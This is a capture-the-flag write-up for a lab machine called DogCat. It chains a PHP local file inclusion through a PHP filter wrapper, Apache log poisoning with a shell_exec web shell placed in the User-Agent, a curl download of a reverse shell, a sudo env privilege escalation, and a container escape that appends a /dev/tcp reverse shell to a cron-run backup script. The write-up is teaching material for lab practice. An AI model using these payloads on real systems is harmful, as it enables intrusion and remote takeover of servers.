






# DogCat

This CTF is about exploiting a PHP application, LFI to RCE and breaking out of a docker container.

## Enumeration

Start off with an NMAP scan

```
nmap -sC -Pn -v -sV <IP_ADDR>
```



This NMAP scan shows us that port 80 (Apache Webserver) and port 22 are running.



Looking at the website, we see that there are 2 buttons. The Dog button will show us a picture of a dog, and the Cat button will show us a picture of a cat.

Looking at the URL, we see that there is a `?view=` parameter which changes to dog or cat when viewing either button. I happened to run `dogcat` as a parameter value and it gave me this error:



This error message tells 2 things:
1. The parameter is looking for a filename (in this case, dog or cat) and automatically adds `.php` at the end of it.
2. If the parameter value doesn't have either `dog` or `cat` in the name, we don't get any errors but we can't view anything either. There is index.php being called, but the page source doesn't seem to have anything interesting.

This means, we have to try LFI and see if we can read the php files in this web application.

## Exploit

Here, we have to use PHP wrappers to read the PHP source code. More information here: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers

I will be using this payload: `/?view=php://filter/convert.base64-encode/resource=<PHP_FILE>`

Running the above payload with dog as a value shows us this:


Decoding the above base-64 string shows us that `dog.php` randomly picks between 1.jpg - 10.jpg. However, we want to go to step further and try to find out the code in index.php. For this, we will use this payload: `/?view=php://filter/convert.base64-encode/resource=dog/../index`



As we can see, there is a large base-64 encoded string being returned here. We can decode this on CyberChef (https://cyberchef.org) and get the following code:

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

In this, We can see that there are 2 parameters that are getting asked, `ext` and `view`. They do the following:
1. If the `ext` parameter is not included in the URL, then it assumes the extension to be php and appends `.php` at the end of the file being called.
2. If there is no `dog` or `cat` as a value in the `view` parameter, then it doesn't parse the request.

To craft the perfect entry and perform LFI, we have to include either dog or cat in `view` parameter value AND include the `ext` parameter but leave it empty so it isn't auto-assigned to php.

The ideal parameter would be `/?view=dog/../../../../../<FILE_PATH>&ext`

I tried looking into `/etc/passwd` but it didn't have anything so I looked into the log file for apache instead, making a payload like this: `/?view=dog/../../../../../var/log/apache2/access.log&ext` 

>127.0.0.1 - - [11/Oct/2022:10:11:12 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
127.0.0.1 - - [11/Oct/2022:10:11:43 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
10.8.5.224 - - [11/Oct/2022:10:11:53 +0000] "GET /?view=dog/../../../../../var/log/apache2/access.log&ext HTTP/1.1" 200 935 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"

Here, we can see that `User-Agent` Header is outputted in this log file. This can be used as an RCE vector as you can edit the Header to add php code which will execute shell commands in the target machine on the webpage being loaded.

I add the following code snippet to the `User-Agent` via BurpSuite or curl: `<?php echo shell_exec($_GET['cmd']); ?>`



Once you send this request, you can execute code by adding a `&cmd=<COMMAND>` parameter.



I tried executing a reverse shell via sh, bash, mkfifo nc but none of them seemed to work, so I decided to upload a reverse shell onto the machine and execute it instead. However, `wget` didn't seem to work so I tried a `curl` command instead.

I downloaded the PentestMonkey PHP reverse shell (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), changed the IP and port values and then set up `nc -lvnp <PORT>` on my machine. I used `python http.server <PORT>` to set up a HTTP server (so that we can use `curl` to get the reverse shell onto target machine). Then, I ran the following payload onto the machine: `/?view=dog/../../../../../var/log/apache2/access.log&ext&cmd=curl -O http://<IP>:<PORT>/shell.php`

This let me download the reverse shell onto the target machine. Next, you have to run `chmod 777 shell.php` and `php shell.php` to execute and actually get the shell.

## Flags

### Flag 1:

Flag 1 is available in `/var/www/html/flag.php`

### Flag 2:

Flag 2 is available at `/var/www`

### Flag 3:

Flag 3 requires us to have root access on this machine. If we type `sudo -l` we see this:

```zsh
$ sudo -l
Matching Defaults entries for www-data on ab2a5900b073:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on ab2a5900b073:
    (root) NOPASSWD: /usr/bin/env
```

This tells us that we are allowed to run `env` as sudo without password. One look at GTFObins and we see this: https://gtfobins.github.io/gtfobins/env/#sudo

This tells us that for Priv-Esc we just have to run `sudo env /bin/sh`

Flag 3 is available in `/root/flag3.txt`

### Flag 4:

For flag 4, I was a lil confused at first, thinking what more could we need other than getting root? I had done a CTF a couple weeks earlier which involved a docker container, and I knew to check `/proc/1/cgroup` and saw that I am in a docker container.

A little bit of exploration brough be into `/opt/backups` where there was a shell script and there was a tar file updated recently. Looking into the `backup.sh`, I saw this:

```vim
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

This was a script running bash, which was taking a backup of this container being run every minute (I ran pspy and checked crontabs but nothing was there so I was manually checking if the file was being updated).

Seeing how this has /root/container (which is a file not present on this machine), it meant that this is being run from some other machine so I just had to add a rev shell and try to get into the this other environment.

I ran `echo 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1' >> backup.sh` and waited for the shell to be run again.

Flag 4 is available in `/root/flag4.txt` in the other machine.
